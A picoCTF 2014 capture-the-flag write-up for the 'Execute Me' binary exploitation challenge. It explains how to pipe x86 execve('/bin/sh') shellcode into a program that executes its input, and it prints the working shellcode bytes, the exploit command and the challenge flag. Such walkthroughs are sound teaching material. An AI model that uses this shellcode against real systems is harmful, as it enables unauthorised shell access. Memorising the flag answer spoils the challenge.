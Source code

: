 ## Execute Me - 80 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-09 13:07:47

Last modified: 2014-11-09 23:20:50

### Problem ###

This program will run whatever you send to it! Try to get the flag! The binary can be found at `/home/execute/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/ExecuteMe/execute.c).

### Hint ###

You can get the flag in a number of ways, but the easiest would be to run a shell.

## Answer ##

### Overview ###

Use the program to execute some shellcode.

### Details ###

Let's start by running the program on the server. When we run it and enter `/bin/sh` the following appears:

```bash
pico89244@shell:~$ cd /home/execute/
pico89244@shell:/home/execute$ ./execute
/bin/sh
Segmentation fault (core dumped)
pico89244@shell:/home/execute$
```

Huh, that's not good. Looking a little closer at the code we see this:
```c
read(0, buf, 128);
((function_ptr)buf)();
```
So the program reads in our buffer and executes it. However, it is not executing the buffer as we would expect, with the `system()` command to run a command in the shell. Instead, it is executing the **assembly commands** that we put in the buffer. The hint tells us to run a shell, so we should use `shellcode`. Shellcode typically is in the form of a bunch of hex values that can be executed to perform a function such as running `cat` or `/bin/sh`. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run `execve("/bin/sh")`
```bash
pico89244@shell:/home/execute$ ./execute
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
pico89244@shell:/home/execute$

```
Huh, that still didn't work. Our next task is to `pipe` the hex values into the program instead of type them in. Right now, the program interprets `\x31`as 4 separate ascii values instead of ascii value `0x31` (or 49 in base 10). To do this we can use Python:
```bash
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") | ./execute
pico89244@shell:/home/execute$
```
This uses Python to print our hex characters into the program. Note the use of a `"` to encapsulate the Python code  and the `'` to encapsulate the `print` command. This time, we get no error but still no shell! The shell is successfully running with this shellcode but is exiting before we can input anything into it. The final step here is to add a `cat` to the end of our Python command, which prevents this.
```
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
whoami
pico89244
cat flag.txt
shellcode_is_kinda_cool
```
Our shell runs successfully and we get our flag!
### Flag ###

    shellcode_is_kinda_cool
